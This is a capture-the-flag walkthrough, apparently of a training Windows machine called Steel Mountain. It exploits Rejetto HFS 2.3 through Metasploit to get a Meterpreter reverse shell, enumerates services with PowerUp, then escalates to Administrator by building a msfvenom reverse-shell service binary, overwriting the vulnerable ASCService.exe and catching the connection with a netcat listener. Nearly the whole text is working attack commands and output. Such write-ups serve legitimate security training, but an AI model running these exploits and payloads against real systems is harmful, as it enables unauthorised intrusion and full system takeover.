




# Steel Mountain

Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.

Level: Easy

Type: Windows Machine

##  Scanning

`nmap -A -sV $TARGET`

        PORT      STATE SERVICE            VERSION
        80/tcp    open  http               Microsoft IIS httpd 8.5
        | http-methods:
        |_  Potentially risky methods: TRACE
        |_http-server-header: Microsoft-IIS/8.5
        |_http-title: Site doesn't have a title (text/html).
        135/tcp   open  msrpc              Microsoft Windows RPC
        139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
        445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
        3389/tcp  open  ssl/ms-wbt-server?
        |_ssl-date: 2026-05-11T19:49:21+00:00; +3s from scanner time.
        | ssl-cert: Subject: commonName=steelmountain
        | Not valid before: 2026-05-10T19:41:45
        |_Not valid after:  2026-11-09T19:41:45
        8080/tcp  open  http               HttpFileServer httpd 2.3
        |_http-server-header: HFS 2.3
        |_http-title: HFS /
        49152/tcp open  msrpc              Microsoft Windows RPC
        49153/tcp open  msrpc              Microsoft Windows RPC
        49154/tcp open  msrpc              Microsoft Windows RPC
        49155/tcp open  msrpc              Microsoft Windows RPC
        Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
        Aggressive OS guesses: On Time RTOS-32 3.0 (86%), Cisco CSS 11501 switch (85%), Allied Telesis AT-8000S; Dell PowerConnect 2824, 3448, 5316M, or 5324; Linksys SFE2000P, SRW2024, SRW2048, or SRW224G4; or TP-LINK TL-SL3428 switch (85%), Cisco SG 300-10, Dell PowerConnect 2748, Linksys SLM2024, SLM2048, or SLM224P, or Netgear FS728TP or GS724TP switch (85%), Linksys SRW2000-series or Allied Telesyn AT-8000S switch (85%), IBM z/VM 4.2 (85%), Vegastream Vega 400 VoIP Gateway (85%), Allied Telesyn AT-AR410 router (85%), IBM z/OS 2.1 (85%)
        No exact OS matches for host (test conditions non-ideal).
        Network Distance: 2 hops
        Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

        Host script results:
        |_clock-skew: mean: 2s, deviation: 0s, median: 1s
        | smb2-time:
        |   date: 2026-05-11T19:49:06
        |_  start_date: 2026-05-11T19:40:16
        | smb2-security-mode:
        |   302:
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 063296fbe63b (unknown)
        | smb-security-mode:
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)

### Who is the employee of the month?

### Scan the machine with nmap. What is the other port running a web server on?
        
        8080/tcp  open  http               HttpFileServer httpd 2.3

### Take a look at the other web server. What file server is running?

### What is the CVE number to exploit this file server?

**On sait depuis le screen qu'un exploit est disponible sur metasploit**

`msfconsole -q`

        msf > search hfs

        Matching Modules
        ================

        #  Name                                                 Disclosure Date  Rank       Check  Description
        -  ----                                                 ---------------  ----       -----  -----------
        0  exploit/multi/http/git_client_command_exec           2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
        1    \_ target: Automatic                               .                .          .      .
        2    \_ target: Windows Powershell                      .                .          .      .
        3  exploit/windows/http/rejetto_hfs_rce_cve_2024_23692  2024-05-25       excellent  Yes    Rejetto HTTP File Server (HFS) Unauthenticated Remote Code Execution
        4  exploit/windows/http/rejetto_hfs_exec                2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

        Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/http/rejetto_hfs_exec

        msf > use 4
        [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
        msf exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.128.186.49
        RHOSTS => 10.128.186.49
        msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
        RPORT => 8080
        msf exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.157.41
        LHOST => 192.168.157.41
        msf exploit(windows/http/rejetto_hfs_exec) > run
        [*] Started reverse TCP handler on 192.168.157.41:4444
        [*] Using URL: http://192.168.157.41:8080/PpoSIXOV7XWD
        [*] Server started.
        [*] Sending a malicious request to /
        [*] Payload request received: /PpoSIXOV7XWD
        [*] Sending stage (188998 bytes) to 10.128.186.49
        [!] Tried to delete %TEMP%\JdFllFXpQuX.vbs, unknown result
        [*] Meterpreter session 1 opened (192.168.157.41:4444 -> 10.128.186.49:49407) at 2026-05-11 22:17:26 +0200
        [*] Server stopped.

        meterpreter > shell
        Process 2588 created.
        Channel 2 created.
        Microsoft Windows [Version 6.3.9600]
        (c) 2013 Microsoft Corporation. All rights reserved.

        C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

        C:\Users\bill\Desktop>type user.txt
        type user.txt

**USER FLAG**

## Privilege Escalation

        [May 11, 2026 - 22:21:10 (CEST)] exegol-VPN /workspace # wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
        --2026-05-11 22:21:48--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
        Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
        Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
        HTTP request sent, awaiting response... 200 OK
        Length: 600580 (587K) [text/plain]
        Saving to: ‘PowerUp.ps1’

        PowerUp.ps1                   100%[=================================================>] 586.50K  --.-KB/s    in 0.08s

        2026-05-11 22:21:49 (7.24 MB/s) - ‘PowerUp.ps1’ saved [600580/600580]

        meterpreter > upload PowerUp.ps1
        [*] Uploading  : /workspace/PowerUp.ps1 -> PowerUp.ps1
        [*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /workspace/PowerUp.ps1 -> PowerUp.ps1
        [*] Completed  : /workspace/PowerUp.ps1 -> PowerUp.ps1
        meterpreter >

        PS > .\PowerUp.ps1
        PS > Invoke-AllChecks

        ServiceName    : AdvancedSystemCareService9
        Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
        CanRestart     : True
        Name           : AdvancedSystemCareService9
        Check          : Unquoted Service Paths

        ServiceName    : AdvancedSystemCareService9
        Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
        CanRestart     : True
        Name           : AdvancedSystemCareService9
        Check          : Unquoted Service Paths

        ServiceName    : AdvancedSystemCareService9
        Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                        Permissions=System.Object[]}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
        CanRestart     : True
        Name           : AdvancedSystemCareService9
        Check          : Unquoted Service Paths

        ServiceName    : AdvancedSystemCareService9
        Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                        IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
        CanRestart     : True
        Name           : AdvancedSystemCareService9
        Check          : Unquoted Service Paths

        ServiceName    : AWSLiteAgent
        Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
        CanRestart     : False
        Name           : AWSLiteAgent
        Check          : Unquoted Service Paths

        ServiceName    : AWSLiteAgent
        Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
        CanRestart     : False
        Name           : AWSLiteAgent
        Check          : Unquoted Service Paths

        ServiceName    : IObitUnSvr
        Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
        CanRestart     : False
        Name           : IObitUnSvr
        Check          : Unquoted Service Paths

        ServiceName    : IObitUnSvr
        Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
        CanRestart     : False
        Name           : IObitUnSvr
        Check          : Unquoted Service Paths

        ServiceName    : IObitUnSvr
        Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                        Permissions=System.Object[]}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
        CanRestart     : False
        Name           : IObitUnSvr
        Check          : Unquoted Service Paths

        ServiceName    : IObitUnSvr
        Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe;
                        IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
        CanRestart     : False
        Name           : IObitUnSvr
        Check          : Unquoted Service Paths

        ServiceName    : LiveUpdateSvc
        Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
        CanRestart     : False
        Name           : LiveUpdateSvc
        Check          : Unquoted Service Paths

        ServiceName    : LiveUpdateSvc
        Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
        ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
        CanRestart     : False
        Name           : LiveUpdateSvc
        Check          : Unquoted Service Paths

        ServiceName    : LiveUpdateSvc
        Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
        ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe;
                        IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
        StartName      : LocalSystem
        AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
        CanRestart     : False
        Name           : LiveUpdateSvc
        Check          : Unquoted Service Paths

        ServiceName                     : AdvancedSystemCareService9
        Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
        ModifiableFileIdentityReference : STEELMOUNTAIN\bill
        StartName                       : LocalSystem
        AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
        CanRestart                      : True
        Name                            : AdvancedSystemCareService9
        Check                           : Modifiable Service Files

        ServiceName                     : IObitUnSvr
        Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
        ModifiableFileIdentityReference : STEELMOUNTAIN\bill
        StartName                       : LocalSystem
        AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
        CanRestart                      : False
        Name                            : IObitUnSvr
        Check                           : Modifiable Service Files

        ServiceName                     : LiveUpdateSvc
        Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
        ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
        ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
        ModifiableFileIdentityReference : STEELMOUNTAIN\bill
        StartName                       : LocalSystem
        AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
        CanRestart                      : False
        Name                            : LiveUpdateSvc
        Check                           : Modifiable Service Files

### Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

**AdvancedSystemCareService9**

        ServiceName                     : AdvancedSystemCareService9
        Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
        ModifiableFileIdentityReference : STEELMOUNTAIN\bill
        StartName                       : LocalSystem
        AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
        CanRestart                      : True
        Name                            : AdvancedSystemCareService9
        Check                           : Modifiable Service Files

        [May 11, 2026 - 22:32:31 (CEST)] exegol-VPN /workspace # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.157.41 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
        WARN: Unresolved or ambiguous specs during Gem::Specification.reset:
        stringio (>= 0)
        Available/installed versions of this gem:
        - 3.1.1
        - 3.0.1.2
        WARN: Clearing out unresolved specs. Try 'gem cleanup <gem>'
        Please report a bug if this causes problems.
        [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
        [-] No arch selected, selecting arch: x86 from the payload
        Found 1 compatible encoders
        Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
        x86/shikata_ga_nai succeeded with size 351 (iteration=0)
        x86/shikata_ga_nai chosen with final size 351
        Payload size: 351 bytes
        Final size of exe-service file: 12288 bytes
        Saved as: ASCService.exe

        C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
        sc stop AdvancedSystemCareService9

        SERVICE_NAME: AdvancedSystemCareService9
                TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
                STATE              : 4  RUNNING
                                        (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
                WIN32_EXIT_CODE    : 0  (0x0)
                SERVICE_EXIT_CODE  : 0  (0x0)
                CHECKPOINT         : 0x0
                WAIT_HINT          : 0x0

        C:\Program Files (x86)\IObit>copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
        copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
        Overwrite C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): Yes
        Yes
                1 file(s) copied.

        C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
        sc start AdvancedSystemCareService9

        SERVICE_NAME: AdvancedSystemCareService9
                TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
                STATE              : 2  START_PENDING
                                        (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
                WIN32_EXIT_CODE    : 0  (0x0)
                SERVICE_EXIT_CODE  : 0  (0x0)
                CHECKPOINT         : 0x0
                WAIT_HINT          : 0x7d0
                PID                : 1888
                FLAGS              :

        C:\Program Files (x86)\IObit>
        [May 11, 2026 - 22:38:51 (CEST)] exegol-VPN /workspace # nc -lvnp 4443
        Ncat: Version 7.93 ( https://nmap.org/ncat )
        Ncat: Listening on :::4443
        Ncat: Listening on 0.0.0.0:4443
        Ncat: Connection from 10.128.186.49.
        Ncat: Connection from 10.128.186.49:49522.
        Microsoft Windows [Version 6.3.9600]
        (c) 2013 Microsoft Corporation. All rights reserved.

        C:\Windows\system32>

        C:\Users\Administrator\Desktop>type root.txt
        type root.txt

**ROOT FLAG**
